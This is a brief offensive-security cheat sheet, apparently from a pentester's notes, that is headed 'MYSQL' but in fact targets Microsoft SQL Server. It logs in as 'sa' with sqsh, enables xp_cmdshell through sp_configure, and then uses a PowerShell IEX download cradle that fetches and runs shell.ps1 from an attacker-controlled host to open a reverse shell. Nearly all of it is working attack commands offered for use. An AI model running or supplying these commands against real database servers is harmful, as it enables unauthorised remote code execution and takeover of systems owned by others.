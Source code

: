 ##### MYSQL
```
sqsh -S <ip> -U sa -P <password>
```

Enable xp_cmdshell into RvShell

```
xp_cmdshell 'whoami'
go
EXEC SP_CONFIGURE 'show advanced options', 1
reconfigure
go
EXEC SP_CONFIGURE 'xp_cmdshell', 1
reconfigure
go
xp_cmdshell 'whoami'
go
xp_cmdshell 'powershell "IEX(New-Object Net.WebClient).downloadString(\"http://<ip>:8000/shell.ps1\")"'
go
```
